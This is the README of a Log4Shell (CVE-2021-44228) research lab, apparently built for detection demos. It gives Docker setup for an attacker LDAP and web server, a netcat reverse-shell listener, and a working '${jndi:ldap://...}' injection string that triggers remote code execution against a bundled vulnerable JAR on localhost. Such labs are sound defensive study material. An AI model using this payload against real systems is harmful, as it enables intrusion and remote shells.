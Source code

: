 # CVE-2021-44228 Log4Shell Research Lab 🚧

A basic research lab to learn more about [Log4Shell - CVE-2021-44228](https://nvd.nist.gov/vuln/detail/CVE-2021-44228).

## Used By

* [Microsoft Sentinel To-Go! CVE-2021-44228-Log4Shell Demo](https://github.com/OTRF/Microsoft-Sentinel2Go/tree/master/grocery-list/Linux/demos/CVE-2021-44228-Log4Shell)

## Deploy LDAP Reference & Web Servers

### Clone Repo

```
sudo su
git clone https://github.com/Cyb3rWard0g/log4jshell-lab
```
### Run Docker Compose File

```
cd log4jshell-lab
docker-compose -f docker-compose.yml up --build -d
```

### Check Docker Containers

```
docker ps

docker logs --follow ldap-server
docker logs --follow web-server
```
## Run Basic Test

This scenario simulates an attacker using the log4j RCE vulnerability to get a shell locally (127.0.0.1) via netcat.
We are going to execute everything on the same endpoint where we deployed our attacker's infrastructure.

### Start Netcat Server

```
nc -lvnp 443
```
### Compile Basic JAR

**Docker**
```
cd vulnApps/basicJar
docker run -it --rm -v "$(pwd)":/opt/maven -w /opt/maven maven mvn clean install
```

**Manual**
```
cd vulnApps/basicJar
mvn -f pom.xml clean package -DskipTests
```

### Run Application

```
cd vulnApps/basicJar
java -cp target/Log4jLabProject-1.0-SNAPSHOT-all.jar com.log4jshell.App '${jndi:ldap://127.0.0.1:1389/Run}'
```

![](resources/images/log4jshell-trigger-rce-basicjar-reverseshell3.png)

## Security Datasets

* [Basic JNDI Lookup PCAP](https://securitydatasets.com/notebooks/atomic/linux/initial_access/SDLIN-211214154100.html)

## References
* https://www.blackhat.com/docs/us-16/materials/us-16-Munoz-A-Journey-From-JNDI-LDAP-Manipulation-To-RCE-wp.pdf
* https://www.youtube.com/watch?v=Y8a5nB-vy78
* https://github.com/veracode-research/rogue-jndi
* https://community.microfocus.com/cyberres/fortify/f/fortify-discussions/317555/the-perils-of-java-deserialization
* https://www.veracode.com/blog/research/exploiting-jndi-injections-java
* https://github.com/pimps/JNDI-Exploit-Kit
* https://github.com/pimps/ysoserial-modified
* https://ldap.com/ldap-urls/
* https://github.com/pwntester/SerialKillerBypassGadgetCollection
* https://www.ibm.com/docs/en/content-manager/8.5.0?topic=ldap-server-configuration-storing-java-objects
* https://docs.microsoft.com/en-us/windows/win32/ad/enabling-schema-changes-at-the-schema-master
* https://forensicitguy.github.io/analyzing-log4shell-muhstik/
* https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/String/fromCharCode
* https://www.jackson-t.ca/runtime-exec-payloads.html
* https://github.com/woodpecker-appstore/log4j-payload-generator/tree/master